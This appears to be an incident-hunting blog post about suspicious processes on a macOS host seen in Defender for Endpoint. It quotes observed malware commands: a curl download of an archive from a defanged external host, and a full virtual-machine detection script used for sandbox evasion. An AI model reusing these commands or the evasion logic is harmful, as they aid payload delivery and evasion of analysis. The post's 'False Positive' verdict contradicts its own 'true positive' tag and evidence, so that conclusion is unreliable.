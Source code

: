 ```yaml
---
title: Mac Malware?
date: 2022-05-19 11:39 +0200
categories: [Hunting, MDE]
tags: [mde, hunting, true positive]
---
```

{% include mermaid.liquid %}

Today we investigate some strange discovery actions by processes on a macbook

## The Alert
In the essence this alert was showing multiple different processes doing very similar discovery actions.
In most cases the process [xpcproxy](https://www.unix.com/man-page/osx/8/xpcproxy/) was used to run a sub process which in turn started some bash commands.
For this investigation I put xpcproxy out of scope as it did not seem to be part of a malicious execution chain (my mac knowledge is basic)
This xpcproxy would run an executable for example apadecoded and this in turn would run new processes example:
```bash
/bin/sh /var/folders/zz/zyxvpxvq6csfxvn_n0000000000000/T/FE8B53AE-FE86-4FF8-98E1-D7987304368D
```
apadecoded itself looks already strange enough and is also found on VT, but what is this "FE8B53AE-FE86-4FF8-98E1-D7987304368D"?

It seems like this executable toes a download of some additional code from external and extracts it to "/private/var/tmp/helpexecd/helpexecd"
```bash
/usr/bin/curl -s -L -o /var/tmp/helpexecd.tgz hxxp://cdn[.]eniqdix[.]icu/static/s3/exec6625/helpexecd[.]tgz
tar -xzf /var/tmp/helpexecd.tgz -C /var/tmp/helpexecd/
```
And then it runs this helpexecd which amongst other things runs this bash script:
```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){ ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){(($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){ local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${VM_LIST}"||echo "${ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){ ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${VM_LIST}";};is_hw_data_vm(){ system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${VM_LIST}";};is_vm(){ is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){ is_vm&&echo 1||echo 0;};main "${@}"'
```
Now this feels like malware trying to figure out if it's running in a sandbox, highly fishy!

## Hunting deeper

If we look at more cases of the same endpoint we can see that the same thing that apadecoded does, what's more interesting is, that there are many processes starting the exact same behaviour.
Here is a list of observed ones:
 * canonistical
 * noble
 * odontolite
 * intrinsicalness
 * TestDate
 * SysUpdater
 * leam
 * recommitment
 * TestDateDaemon
 * apadecode
 * apadecoded

<div class="mermaid">
flowchart TD;
    kernel_task[kernel_task];
    launchd[launchd];
    bash1[bash];
    xpcproxy[xpcproxy];
    syncservice[syncservice];
    bash2[bash];
    sh[sh];
    canonistical[canonistical];
    noble[noble];
    odontolite[odontolite];
    intrinsicalness[intrinsicalness];
    TestDate[TestDate];
    SysUpdater[SysUpdater];
    leam[leam];
    recommitment[recommitment];
    TestDateDaemon[TestDateDaemon];
    apadecode[apadecode];
    apadecoded[apadecoded];

    kernel_task --> launchd;
    launchd --> bash1;
    bash1 --> syncservice;
    syncservice --> sh;
    sh --> bash2;
    xpcproxy --> canonistical;
    xpcproxy --> noble;
    xpcproxy --> odontolite;
    xpcproxy --> intrinsicalness;
    xpcproxy --> TestDate;
    xpcproxy --> SysUpdater;
    xpcproxy --> leam;
    xpcproxy --> recommitment;
    xpcproxy --> TestDateDaemon;
    xpcproxy --> apadecode;
    xpcproxy --> apadecoded;
</div>


## Verdict

| Indicator                              | Thoughts                                                                                                            | Verdict |
|----------------------------------------|---------------------------------------------------------------------------------------------------------------------|---------|
| CMD started by User                    | Either compromise of host, or legitimate action by user                                                             | -10%    |

**Verdict: False Positive**

## Next Steps

